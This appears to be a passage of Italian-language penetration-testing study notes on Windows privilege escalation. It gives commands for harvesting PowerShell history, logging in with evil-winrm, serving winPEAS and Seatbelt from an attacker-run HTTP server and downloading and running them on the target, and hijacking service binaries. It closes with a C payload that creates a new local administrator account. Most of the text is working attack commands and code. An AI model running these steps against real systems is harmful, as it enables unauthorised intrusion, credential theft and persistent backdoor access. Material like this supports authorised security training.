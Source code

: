 ## 16.1.4. Information Goldmine PowerShell

```bash
Get-History

(Get-PSReadlineOption).HistorySavePath

evil-winrm -i $IP -u username -p "password"
```

## 16.1.5. Automated Enumeration

```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

python3 -m http.server 80

powershell
iwr -uri http://$MIO_IP/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe

iwr -uri http://$MIO_IP/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```

# 16.2. Leveraging Windows Services
## 16.2.1. Service Binary Hijacking

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

```bash
icacls "C:\...\file.exe"
```

|MASK|PERMISSIONS|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|
Creazione del file **adduser.c** su kali:

```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuovo_utente password123! /add");
  i = system ("net localgroup administrators nuovo_utente /add");
  
  return 0;
}
```
